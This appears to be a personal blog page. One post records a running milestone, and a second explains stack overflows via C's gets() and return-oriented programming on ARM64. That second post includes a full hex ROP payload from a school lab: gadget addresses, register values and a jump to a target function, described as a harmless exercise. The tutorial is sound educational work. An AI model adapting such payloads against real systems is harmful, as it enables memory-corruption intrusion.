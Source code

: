 ```yaml
---
layout: page
title: Blog 
permalink: /blog/
---
```


# First Running Milestone Achieved
 
<text style="color : gray">February 8, 2024</text>

First fitness goal of 2024 achieved: Sub-25-minute 5KM run. 

![Strava 5K](media/strava5k.png)

Also didn't write these earlier but here are my running-related goals for 2024: 

1. Sub-25min 5K 
2. Sub-50min 10K
3. Sub 2hr half-marathon (21.1k)
4. Sub 4hr marathon (42.2k)

<br>

# Hacking the stack using code injection and ROP 

<text style="color : gray">February 2, 2024</text>

Using C's `gets()` function can have serious cybersecurity risks.

Say a function asks for a 16-byte string argument from a user: 

```c
int main() { 
    char buf[16];
    gets(buf);
    return 0;
}
```

Then, upon calling `gets(buf)`, the stack will look something like
```
higher addr's

|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      buf bytes 0-7      |
|-------------------------|
|      buf bytes 8-15     |
--------------------------- < top of stack
```

The issue with this is that `gets()` will keep reading and copying input from the input past 16 bytes allocated for `buf`.

What happens then? 

Lets use the following input bytes as an example: 

```
ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff 
12 34 56
```

Then, the stack might look a bit like: 

```
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
| 12 34 56 k contents     |
|-------------------------|
| ff ff ff ff ff ff ff ff |
|-------------------------|
| ff ff ff ff ff ff ff ff |
--------------------------- < top of stack
```

Even though we have filled buf, the program keeps loading in bytes 
onto the stack until a terminating character is entered. Anything that was previously stored on the stack can get overwritten.

What's stored on the stack? 

Link Registers (saved addresses to return to after a subroutine)!

This means that when we are inside a subroutine, somewhere on the stack there is a return address saved to jump back to once we exit the current subroutine.

Thus, we can overwrite the address on the stack using `gets(buf)` and a carefully crafted user input. One example I had from a school assignment:

```
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
54 3e 45 00 00 00 00 00 // 0x453e54, address of gadget 1 (load x1) to load in read_file lr
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
80 9a 44 00 00 00 00 00 // 0x449a80, address of gadget 2 to load x0, placed in lr during gadget 1
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
90 ca f0 ff ff ff 00 00 // 0xfffffff0ca90, value of x1 (addr of ph33rm3n00bz)
11 11 11 11 11 11 11 11
e8 07 40 00 00 00 00 00 // 0x4007e8, addr of pwn3
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
3c 00 00 00 00 00 00 00  // 60, value to put in x0 in gadget 2
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
70 68 33 33 72 6d 33 6e // ph33rm3n00bz, value to put in x1, placed near value of $sp when reaching pwn3 
30 30 62 7a 00 00 00 00 
``` 
The above input was used to overwrite 3 link registers, overwrite 2 registers, and jump 3 different points in the code: 
1. Load the register x1 with a pointer that points to a space in memory that holds a string argument (at the end of the user-inputted data above). Since this will go into `x1`, this will be the second argument passed into any the function according to ARM64 assembly's call convention.
2. Load a value into `x0`. I had to find a [gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) that wrote a value at a stack offset into `x0`, and then place the value on the stack in that special spot, all without modifying `x1` in the process, as that stored our string argument. 
3. Jump to a gadget that saves a text file with the contents of the first two variables. In a real hacking situation, the end goal would be to open a terminal to gain full access to the device, which may involve a `syscall` call. This was a harmless exercise, so it just saves a text file and we are satisfied.
